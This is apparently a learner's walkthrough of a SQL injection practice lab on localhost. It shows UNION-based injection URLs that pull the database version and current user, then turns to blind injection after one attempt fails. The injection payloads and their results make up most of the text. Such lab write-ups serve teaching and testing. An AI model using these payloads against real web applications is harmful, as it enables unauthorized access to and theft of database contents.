



Finding columns used by developers
We're going to try and find the number of columns used in the query.
To do this we can't use a SQL Keyword “ORDER BY”.
NOTE: "ORDER BY" doesn't work if you're not using comments.
In this case we have to do a kind of try and error or Force brute.
a) Getting the Database Version.
URL: http://localhost/Less-1/?id=-6' UNION select 5,version(),3 AND '1

The number 5 can be any number.
In this query we use the version() function for detecting the database version; similarly, we can use another different query for retrieving more information from database.
Result: “8.0.22-0ubuntu0.20.04.3”
b) Getting the current user..
URL: http://localhost/Less-1/?id=-6' UNION select 5,current_user,3 AND '1

The number 5 can be any number.
Result: “root@localhost”
In this queries we use the version() and current_user functions for detecting the database version; similarly, we can use another different query for retrieving more information from database.
c) When we can't get more information from the Database.
URL: http://localhost/Less-1/?id=-6%27%20UNION%20select%205,%20table_name,3%20from%20information_schema.tables%20AND%20%271

Result: An error but without any information.
So. we'll have to use another method lika “Blind Injection”.